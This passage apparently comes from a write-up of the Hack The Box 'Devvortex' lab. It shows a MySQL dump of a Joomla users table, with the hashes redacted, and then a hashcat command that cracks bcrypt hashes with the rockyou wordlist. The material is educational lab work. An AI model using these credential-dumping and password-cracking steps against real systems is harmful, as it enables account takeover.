 ```mysql
| sd4fg_banner_tracks |
<SNIP>
| sd4fg_users |

mysql> select * from sd4fg_users;  
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+  
| id | name | username | email | password | block | sendEmail | registerDate | lastvisitDate | activation | params | lastResetTime | resetCount | otpKey | otep | requireReset | authProvider |  
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+  
| 649 | lewis | lewis | lewis@devvortex.htb | <REDACTED> | 0 | 1 | 2023-09-25 16:44:24 | 2023-11-26 13:51:53 | 0 | | NULL | 0 | | | 0 | |  
| 650 | logan paul | logan | logan@devvortex.htb | <REDACTED> | 0 | 0 | 2023-09-26 19:15:42 | NULL | | {"admin_style":"","admin_language":"","language":"","editor":"","timezone":"","a11y_mono":"0","a11y_contrast":"0","a11y_highlight":"0","a11y_font":"0"} | NULL | 0 | | | 0 | |  
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+

```

As shown above, two hashes were stolen from the database.

<img src="/assets/img/20240115-devvortext-sqlhashes.png" alt="20240115-devvortext-sqlhashes.png" class="auto-resize">

## Cracking the passwords

Using Hashcat, one of the hashes is quickly cracked.

```bash
──(kali㉿kali)-[~/Documents/HTB-Machines/devvortex/credentials]
└─$ hashcat -a 0 -m 3200 hashes /usr/share/wordlists/rockyou.txt       
hashcat (v6.2.6) starting
<SNIP>
<REDACTED>

```
